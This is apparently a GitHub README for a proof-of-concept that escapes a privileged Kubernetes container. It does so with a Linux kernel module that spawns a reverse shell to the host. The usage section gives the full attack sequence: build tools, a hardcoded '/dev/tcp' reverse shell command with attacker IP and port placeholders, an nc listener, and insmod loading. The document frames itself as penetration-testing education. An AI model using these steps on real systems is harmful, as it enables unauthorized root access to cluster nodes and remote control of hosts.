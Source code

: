 # 🛠️ Kernel Module Reverse Shell – Privileged Container Escape PoC

This repository demonstrates a real-world **container escape technique** using a custom **Linux Kernel Module (LKM)** to spawn a reverse shell from within a `--privileged` Kubernetes container.

Featured in [RBT Security’s Kubernetes Penetration Testing – Part Three](https://www.rbtsec.com/blog/kubernetes-pentesting-part-three), this proof-of-concept shows how attackers can go beyond the container boundary and **execute commands directly on the host**.

> ⚠️ **For educational and authorized testing only.**  
> Do NOT run this code in any environment you do not own or have explicit permission to test.

---

### 🔍 About LKM (350-char Description)  
A Loadable Kernel Module (LKM) lets code run in kernel space without rebooting. When used from a privileged Kubernetes container, it can enable full host compromise. This PoC shows how attackers exploit SSTI, load a reverse shell LKM, and escape the container to gain root access on the Node.

---

## 🚀 How It Works

1. The attacker exploits a vulnerability (e.g., SSTI) to gain code execution inside a **privileged container**.  
2. A **custom kernel module** is compiled and injected from inside the container, with the reverse shell IP and port hardcoded in the source code.  
3. Once loaded, the module uses `call_usermodehelper()` to initiate a **reverse shell** to the attacker’s listener.  
4. Since the container runs with full kernel capabilities (e.g., `CAP_SYS_MODULE`), this grants **host-level command execution**.

---

## 📁 Files

- `reverseshell_module.c`: The kernel module source code  
- `Makefile`: Used to compile the module for the target kernel

---

## 💻 Usage

```bash
# Step 1: Install dependencies inside the container
apt update
apt install -y build-essential linux-headers-$(uname -r)

# Step 2: Edit the reverse shell IP and port in the C source file
# File: reverseshell_module.c
# Replace <your-ip> and <port> with your attacker's listener
static char command[50] = "bash -i >& /dev/tcp/<your-ip>/<port> 0>&1";

# Step 3: Compile the kernel module
make clean && make

# Step 4: Start your listener
nc -lvnp 6999

# Step 5: Load the kernel module (inside the container)
insmod reverseshell_module.ko

